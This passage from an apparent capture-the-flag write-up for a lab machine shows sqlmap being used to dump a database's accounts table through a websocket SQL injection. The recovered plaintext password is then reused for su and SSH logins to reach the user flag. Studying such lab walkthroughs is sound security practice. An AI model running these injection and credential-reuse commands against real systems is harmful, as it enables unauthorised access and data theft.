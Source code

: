 #### Dump accounts

In general, with boolean and time-based SQL injections, I want to be careful about dumping tons of data, as it will be very slow. That said, since there’s only one table, I want the entire thing, so I’ll replace `--tables` with `-T accounts` and add `--dump`. It dumps the table:

```

oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
...[snip]...
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
...[snip]...

```

The user is player and the password is in plaintext.

### su / SSH

That password works for the player user on the box with `su`:

```

www-data@soccer:/home/player$ su player -
Password: 
player@soccer:~$

```

It works for SSH as well:

```

oxdf@hacky$ sshpass -p PlayerOftheMatch2022 ssh player@soccer.htb
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
...[snip]...
player@soccer:~$

```

Either way I’ll grab `user.txt`:

```

player@soccer:~$ cat user.txt
df7f36e9************************

```
